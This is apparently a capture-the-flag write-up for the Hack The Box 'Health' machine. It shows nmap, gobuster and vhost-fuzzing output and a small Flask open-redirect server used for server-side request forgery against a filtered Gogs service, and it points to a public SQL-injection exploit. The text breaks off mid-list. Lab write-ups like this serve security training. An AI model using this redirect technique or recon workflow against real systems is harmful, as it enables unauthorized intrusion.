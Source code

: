 ```yaml
---
title: "[HTB] Machine: Health"
description: "[HTB] Machine: Health"
date: 2023-11-09
menu:
  sidebar:
    name: "[HTB] Machine: Health"
    identifier: htb-machine-Health
    parent: htb-machines-linux
    weight: 10
hero: images/health.png
tags: ["HTB"]
---
```


# Health
## Enumeration
- `nmap`
  - `Note`: I missed filtered port `3000`
  - `nmap` behaves weirdly when using `--min-rate`, thus run it without that flag too
```
└─$ nmap -Pn -p- 10.10.11.176 --min-rate 1000              
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 18:01 GMT
Warning: 10.10.11.176 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.176 (10.10.11.176)
Host is up (0.17s latency).
Not shown: 60437 closed tcp ports (conn-refused), 5096 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 142.48 seconds
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.11.176 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 18:04 GMT
Nmap scan report for 10.10.11.176 (10.10.11.176)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HTTP Monitoring Tool
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.70 seconds

```
```
└─$ nmap -Pn -sC -sV 10.10.11.176 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 16:26 GMT
Stats: 0:00:38 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.99% done; ETC: 16:27 (0:00:00 remaining)
Nmap scan report for health.htb (10.10.11.176)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HTTP Monitoring Tool
|_http-server-header: Apache/2.4.29 (Ubuntu)
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.26 seconds
```

- Web Server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://health.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt  -x txt,html,php --no-error -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://health.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/.html.html           (Status: 403) [Size: 275]
/.html.txt            (Status: 403) [Size: 275]
/.html.php            (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 7354]
/js                   (Status: 301) [Size: 305] [--> http://health.htb/js/]
/css                  (Status: 301) [Size: 306] [--> http://health.htb/css/]
/.htm                 (Status: 403) [Size: 275]
/.htm.txt             (Status: 403) [Size: 275]
/.htm.html            (Status: 403) [Size: 275]
/.htm.php             (Status: 403) [Size: 275]
/javascript           (Status: 301) [Size: 313] [--> http://health.htb/javascript/]

```

- `vhosts`
```
└─$ wfuzz -u http://health.htb/ -H 'Host: FUZZ.health.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 620
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://health.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000689:   400        10 L     35 W       301 Ch      "gc._msdcs"
```

## Foothold
- I set my ip on both `url` links
  - Both urls are requested

![](./images/2.png)

- I'll listen with `nc`

![](./images/3.png)

- I'll try to host `Monitored URL` via `python` and listen to `Payload URL` on `nc`

![](./images/4.png)

- If try entering `localhost`, it returns error
  - The reason was to check if I could perform `SSRF` on port `3000` which is filtered
  - We can launch some `flask` app which will try to redirect to port `3000` and see if it works
```
from flask import Flask, redirect, request

app = Flask(__name__)


@app.route("/", methods=["GET"])
def r():
    url = request.args.get("url")
    return redirect(url, code=302)


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80)
```
```
└─$ python3 app.py                                                                                                                
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://10.0.2.15:80
<SNIP>
```

- We succesfully performed `SSRF`

![](./images/5.png)

- Let's test it on port `3000`

![](./images/6.png)

- It's a `GoGits Version: 0.5.5.1010 Beta`
  - There is `sqli` in that specific version
    - https://www.exploit-db.com/exploits/35238
  - The `poc` with `null` doesn't work
  - 
